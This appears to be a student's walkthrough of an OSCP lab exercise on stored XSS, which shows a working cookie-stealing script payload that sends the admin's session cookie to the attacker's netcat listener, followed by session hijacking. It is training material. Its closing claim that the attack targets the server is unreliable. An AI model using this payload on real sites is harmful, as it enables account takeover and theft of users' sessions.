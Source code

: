 9.4.2.5

# 9.4.2.5

## 9.4.2.5.1. Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.

Browse the main page
http://192.168.214.10/
![867e2073ee5b919aacf7280956cd244e.png](../../_resources/9dc5c09dd9d546f7aec6dbadee843ce8.png)

There is a stored XSS vulnerability on
http://192.168.214.10/feedback.php. Enter in special characters in the Comment form section `hello";<>`
![5f1cf16f998786d78367913c767cd9a7.png](../../_resources/7c79fa98204a4b9c83d007154db34efc.png)

Check the browser output plus the inspector tool. It did not encode the special characters
![5d57674bec10851b547d13e70e938123.png](../../_resources/9981f25f5f1544f3a4d0b36626c85ffd.png)

The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

### Stealing the cookie
Open a netcat listener on port 80 on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
```

Create an XSS payload so we can steal the PHPSESSID. The XSS payload is as follows:
`<script>new Image().src="http://192.168.119.214/cool.jpg?output="+document.cookie;</script>`

Submit the XSS payload into the feedback form
![766551bcca36410417c7f9d56bc67005.png](../../_resources/0fce84c1e528475c84b73580d8dbe867.png)

Now go to the Windows machine, and run admin_login.ps1. This will trigger the XSS payload.
```plaintext
C:\Users\admin\Documents>powershell -ExecutionPolicy Bypass -File admin_login.ps1 
```
![c8226295680d7eaddfc1185e058bb8ee.png](../../_resources/8ff6690012564f61a8b3cf0e43f5a0c9.png)

**GOTCHA** A pop-up window may appear regarding opening Internet Explorer 11 with Windows Defender. DO NOT use recommended settings!
![fae8de70e8f7adb7a71b6cac54d088e2.png](../../_resources/7d06363b6a9b4d5da3f383ebff7f8832.png)

Observe we now have a cookie PHPSESSID=0f2rkmije29p3vhahp6m654r6c
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/9_webApplicationAttacks$ sudo nc -lnvp 80
listening on [any] 80 ...
connect to [192.168.119.214] from (UNKNOWN) [192.168.214.10] 49616
GET /cool.jpg?output=PHPSESSID=0f2rkmije29p3vhahp6m654r6c HTTP/1.1
Accept: image/png, image/svg+xml, image/jxr, image/*;q=0.8, */*;q=0.5
Referer: http://127.0.0.1/admin.php
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Host: 192.168.119.214
Connection: Keep-Alive
```

Set the cookie in our browser
![IMG_2434.JPG](../../_resources/5f61c08803aa4343804f4ab61f399eb6.JPG)


Browse to http://192.168.214.10/admin.php. We are in without a password!
![45406bb36c0ad713b354e0440d8546eb.png](../../_resources/b60056dc8a6c486aaca420f0151a6b15.png)


## 9.4.2.5.2. Consider what other ways an XSS vulnerability in this application might be used for attacks.
Remote code execution using reverse shells

## 9.4.2.5.3. Does this exploit attack the server or clients of the site?
It attacks the server side
